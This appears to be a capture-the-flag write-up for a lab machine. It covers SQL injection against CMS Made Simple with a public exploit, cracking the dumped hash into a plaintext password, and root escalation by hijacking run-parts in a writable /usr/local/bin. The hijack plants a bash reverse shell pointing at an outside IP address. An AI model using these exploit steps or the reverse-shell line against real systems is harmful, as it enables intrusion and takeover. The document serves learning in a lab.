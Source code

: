 ## Info
### Credential
 User | Password | Service | Note
------|----------|---------|------
jkr   |raykayjay9|         |
       
### HTTP
** /writeup`
- `/modules` shows the installed modules
- `/admin` shows the login prompt
- `/index.php?page=` may be SQL injectable
- `/uploads` exist, but has no content

## Path
### User
1. Found `/writeup` in `/robots.txt`.
2. In the html of `/writeup/index.php?page=ypuffy`, it shows the CMS is `CMS Made Simple`.
3. Found `/writeup/admin` has the login prompt.
4. Found `/writeup/index.php?page=2` is `/writeup/index.php?page=ypuffy`, so may be SQL Injectable.
5. Use `46635.py` from `searchsploit` to dump the credential of the user `jkr`, then crack it with `hashcat`.
```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
$ hashcat --force -m 20 --username hash.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
jkr:raykayjay9
```
6. The credential obtained can use to login via SSH and get the user flag.
### Root
1. Found `/usr/local/bin` is writable for group `staff`, and the user is in the group. So we can hijack binaries.
2. Use `pspy` to find every time user login, it call `/usr/bin/env run-parts`, so hijack it
```
$ cat << EOF > /usr/local/bin/run-parts
bash -c "bash -i >& /dev/tcp/10.10.16.3/13337 0>&1"
EOF
$ chmod +x /usr/local/bin/run-parts
```
3. Then login vis SSH from another pane, and get the root reverse shell.
4. Get the root flag.

